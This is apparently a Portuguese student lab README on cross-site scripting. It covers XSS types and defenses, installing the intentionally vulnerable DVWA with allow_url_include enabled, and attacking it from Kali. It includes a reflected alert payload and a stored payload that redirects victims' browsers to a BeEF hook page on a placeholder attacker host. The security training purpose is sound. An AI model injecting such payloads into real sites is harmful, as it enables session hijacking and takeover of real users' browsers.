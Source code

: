 # PRÁTICA XSS

## Dupla:
Anderson Felipe Costa

Antonio Thiago Costa

## O que é XSS?

O ataque de Cross-site scripting (XSS) consiste em uma vulnerabilidade causada pela falha nas validações dos parâmetros de entrada do usuário e resposta do servidor na aplicação web. Este ataque permite que um código HTML seja inserido no navegador do usuário alvo.

Tecnicamente, este problema ocorre quando um parâmetro de entrada do usuário é apresentado integralmente pelo navegador, como no caso de um código javascript que passa a ser interpretado como parte da aplicação legítima e com acesso a todas as entidades do documento (DOM). Na prática, o responsável pelo ataque executa instruções no navegador da vítima usando um aplicativo web vulnerável, modificando estruturas do documento HTML.
Algumas vezes o atacante não tem como alvo diretamente sua vítima,  pelo contrario ele explora uma vulnerabilidade em um site que o alvo pode visitar com o objetivo de entregar o JavaScript malicioso para ele. No navegador do alvo, o JavaScript malicioso parece ser como parte integrante do site, o que torna o ataque efetivo e quase imperceptível para a vítima.

Podemos considerar um JavaScript como sendo malicioso quando ele consegue acessar informações confidenciais dos usuários, como os cookies ou quando são enviadas requisições HTTP contendo scripts maliciosos que podem usar o XMLHttpRequest. Claro que estes são apenas alguns exemplos, mesmo porque os ataques de XSS permitem uma série de combinações no ataque.

Um bom exemplo é uma aplicação vuneravel é o fórum, em que o usuário tenha permissão para incluir mensagens de sua própria autoria para que os outros usuários possam ler. Se este aplicativo não filtrar corretamente os códigos HTML, um usuário mal intencionado pode injetar instruções para leitura de informações específicas do usuário legítimo, tais como códigos de sessão, e até mesmo executar tarefas específicas como enviar mensagens de maneira arbitrária para o fórum.

## Tipos de XSS

Existem três tipos mais conhecidos são eles:

* XSS Stored que consiste em um código malicioso que pode ser permanentemente armazenado no servidor web/aplicação, como em um banco de dados, fórum, campo de comentários etc. O usuário torna-se vítima ao acessar a área afetada pelo armazenamento do código mal intencionado.Esse tipo de XSS são geralmente mais significativos do que outros, uma vez que um usuário mal intencionado pode potencialmente atingir um grande número usuários apenas com uma ação específica e facilitar o processo de engenharia social. Em alguns casos, o navegador afetado pode até mesmo se comportar como se estivesse infectado por um worm, replicando cópias para cada usuário que execute o código mal intencionado.

* XSS Reflected script é ativado por meio de um link, que envia uma solicitação para um site com uma vulnerabilidade que permite a execução de scripts mal-intencionados. A vulnerabilidade geralmente é resultado de solicitações recebidas sem criptografia, o que permite a manipulação das funções de um aplicativo da Web e a ativação de scripts mal-intencionados. Para distribuir o link malicioso, um criminoso normalmente o incorporam em um site de e-mail ou de terceiros (por exemplo, em uma seção de comentários ou em mídias sociais). O link é incorporado dentro de um texto âncora que faz com que o usuário clique nele, o que inicia a solicitação XSS para um site explorado, refletindo o ataque de volta ao usuário. Ao contrário de um ataque armazenado, em que o autor deve localizar um site que permita a injeção permanente de scripts mal-intencionados, os ataques refletidos exigem apenas que o script mal-intencionado seja incorporado a um link. Sabendo disto, para que o ataque seja bem-sucedido, o usuário precisa clicar no link infectado. Ataques refletidos são mais comuns. Os ataques refletidos não têm o mesmo alcance que os ataques XSS Stored. XSS reflected podem ser evitados por usuários vigilantes. Como pode se ver esse tipo de ataque é executado por meio de engenharia social, convencendo o usuário alvo que a requisição a ser realizada é legítima. As consequencias variam de acordo com a natureza da vulnerabilidade, podendo variar do sequestro de sessões válidas no sistema, roubo de credenciais ou realização de atividades ilicitas em nome do usuário afetado.

* Dom Based XSS: É o tipo mais difícil de ser encontrado entre os três, porque depende de uma das vulnerabilidades em algum dos componentes da página, sendo que o script faz alterações no HTML atual da página através da manipulação do DOM (Document Object Model). Recentemente, o tema TwentyFifteen, que é padrão nas instalações do WordPress, foi alvo desse tipo de vulnerabilidade e deixou milhões de sites vulneráveis.

## Problemas para impedir ataques XSS

Uma das principais dificuldades na prevenção de vulnerabilidades XSS é a codificação adequada de caracteres. Em alguns casos, o servidor da Web ou o aplicativo da Web podem não filtrar algumas codificações de caracteres, portanto, por exemplo, o aplicativo da Web pode filtrar "<script>", mas pode não filtrar% 3cscript% 3e que simplesmente inclui outra codificação de tags.

## Métodos de prevenção

* Encoding e Validation: A função do Encoding é filtrar os dados que o usuário irá inserir para que o navegador o interprete apenas como dado e não como código. Um exemplo clássico é a conversão em HTML, como "<" e ">" em "&lt;" e "&gt;". O objetivo do Validation é filtrar todas as entradas do usuário que podem ser maliciosas para a sua aplicação, e essa será a sua primeira linha de defesa contra os ataques XSS. Essa validação funciona melhor através da prevenção sobre os dados que possuem limites de valores. Um exemplo é uma variável “Int” (inteiro), que não precisa conter códigos HTML.

* Use bibliotecas Anti-XSS: As bibliotecas Anti-XSS fornecem um conjunto de funções que irá facilitar o filtro dos dados para bloquear os 
ataques XSS. algumas delas:

1. Microsoft AntiXSS Library .NET 
2. HTML Purifier  PHP
3. Java Encoder Java

* Utilize o Content Security Policy (CSP): O Content Security Policy é um cabeçalho HTTP que fornece uma whitelist de recursos confiáveis no qual o navegador poderá confiar. Um recurso pode ser um script, CSS, imagem ou outro tipo de arquivo que poderá ser indicado. Isso significa que mesmo se um atacante conseguir injetar um código XSS no seu site, o CSP poderá impedir a sua execução. O único problema atual do CSP é que a interpretação é diferente em alguns navegadores e por isso você terá que fazer um tratamento de qual Header enviar. Usando a flag HttpOnly: O HttpOnly é uma flag adicional que pode ser incluída junto com a opção Set-Cookie. Quando o HttpOnly é usado, o JavaScript não será capaz de ler esse cookie protegido se acontecer a exploração do XSS do lado do cliente. Caso o navegador suporte essa opção, mesmo que a falha de XSS exista e o atacante consiga fazer uma vítima acessar o link que pode explorar a falha, o navegador não irá fornecer os dados do cookie para o atacante. X-XSS-Protection no Header: Este cabeçalho pode ser utilizado para configurar uma proteção no navegador contra ataques XSS Reflected. Atualmente, apenas os navegadores Internet Explorer, Google Chrome e Safari (WebKit) o suportam.

## INSTALAÇÃO DO DVWA E APRESENTAÇÃO DO BEFF

### Servidor APACHE2 - Ubuntu Server
### Atacante - Kali Linux

1. Instalação normal do Ubuntu server, até chegar a Seleção de pacotes, nela selecione LAMP server e OpenSSh server.
![imagem01](imagens/09.png)
####Obs: Caso não for utilizar o Ubuntu Server basta executar

```
sudo apt install lamp-server^ 

sudo apt install openssh-server
```

2. Após o processo de instalação do S.O e o LAMP, exeute o comando abaixo, para remover os pacotes php:

```
sudo apt-get purge `dpkg -l | grep php | awk '{print $2}' | tr "\n" " "`
```
![imagem03](imagens/03.png)

3. Em Seguida, inserir um repositorio de onde sera baixado o php necessario para DVWA e um update:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt update
```
![imagem03](imagens/04.png)

4. Neste passo instale o php5.6 e os modulos necessarios além do unzip com:
```
sudo apt install php5.6 php5.6-gd php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml unzip
```
![imagem07](imagens/07.png)

5. Inicie o apache:
```
sudo systemctl start apache2
```

6. Ative o módulo do php5.6 no apache:
```
sudo a2enmod php5.6
```
![imagem09](imagens/09.png)

7. Entre na pasta /var/www onde será baixado o pacote DVWA e execute o wget e o unzip:
```
cd /var/www
sudo wget https://github.com/ethicalhack3r/DVWA/archive/master.zip
sudo unzip master.zip -d html
```

8. Agora entre na pasta html e mude o nome da pasta descompactada para facilitar o acesso:
```
cd html
sudo mv html/DVWA-master html/dvwa
```

9. Agora altere a linha com allow_url_include de off para on:
```
sudo vim /etc/php/5.6/apache2/php.ini
```
![imagem17](imagens/17.png)

10. Agora copie o modelo do arquivo config do DVWA executando:
```
sudo cp dvwa/config/config.inc.php.dist dvwa/config/config.inc.php
```

11. Altere o arquivo criado:
```
sudo vim dvwa/config/config.inc.php
```
![imagem22](imagens/22.png)
Obs: Neste arquivo deixe o usuario como root e em db_password insira a senha configurada na instalação, caso não tenha senha, deixe somente '';.

12. Altere também o arquivo xss_s, para poder inserir mais caracteres no campo de comentarios do XSS Stored, necessario para poder escrever o script completo.
```
sudo vim html/dvwa/vulnerabilities/xss_s/index.php
```

Busque por mtxMessage
![imagem23](imagens/22.1.png)

Altere o proximo numero após maxlenght
![imagem24](imagens/22.2.png)

![imagem25](imagens/22.3.png)

13. Reinicie o apache
```
sudo systemctl restart apache2
```

14. Após toda a configuração, vá ao navegador e insira a URL IP-do-servidor/dvwa. Neste ponto a pagina é aberta, após checar todos os pontos necessarios clique em Create / Reset Database:

![imagem26](imagens/23.png)

Tela de login do DVWA - Usuario: admin e senha:password
![imagem27](imagens/24.png)

Após inserir usuario e senha temos a seguinte tela:

![imagem28](imagens/25.png)
Nela temos todas as opções de teste de ataque, nesta pagina clique em DVWA Security para alterar a dificuldade do ataque. Vai estar em impossible, altere para Low e clique em Submit.

## Ataques

### XSS Reflected
Clique em XSS(Reflected) e no campo de texto insira.
```
<script type="text/javascript"> alert('texto'); </script>
```
![imagem29](imagens/26.png)
Devera aparecer esta tela de pop-up com o texto inserido.

### XSS Stored

Para este ataque utilizaremos o Beef xss framework, uma ferramenta de pentest do Kali Linux
![imagem30](imagens/27.png)

1. Abra o beef

Está é a tela inicial do beef, o usuario padrão é beef e a senha igual
![imagem31](imagens/28.png)

2. No DVWA, insira no campo mensagem este código:
```
<script> document.location="http://Seu-IP/demos/butcher/index.html" </script>
```
Este link direciona para uma pagina de teste de ataque XSS pronta. No campo nome coloque qualquer coisa

![imagem32](imagens/29.png)

3. Voltando ao beff, no lado esquerdo da página surge o IP do browser infectado pela pagina.
![imagem33](imagens/30.png)

4. Clicando no IP da vitima recebemos varias opções, podendo o atacante com este acesso fazer outros ataques ao usuario infectado atraves do navegador.

![imagem34](imagens/31.png)

5. Agora é so testar as opções e se divertir!


## Prática Proposta

Instalar o DVWA e realizar um XSS Reflected, fazendo surgiu um pop-up, apresentando o nome do aluno, printar esta tela e postar no Git Hub.


## Referências

+ [Link] (https://imasters.com.br/devsecops/5-formas-para-prevenir-os-ataques-xss)
+ [Link] (https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
+ [Link] (https://www.incapsula.com/web-application-security/reflected-xss-attacks.html)
+ [Link] (http://www.redesegura.com.br/2012/01/saiba-mais-sobre-o-cross-site-scripting-xss/)
+ [Link] (https://www.youtube.com/watch?v=OVLz6RgOjIY)
+ [Link] (https://medium.com/@GustavoOliveira/xss-cross-site-scripting-ae5fe11b0f2e)
+ [Link] (https://portswigger.net/kb/issues/00200300_cross-site-scripting-reflected)
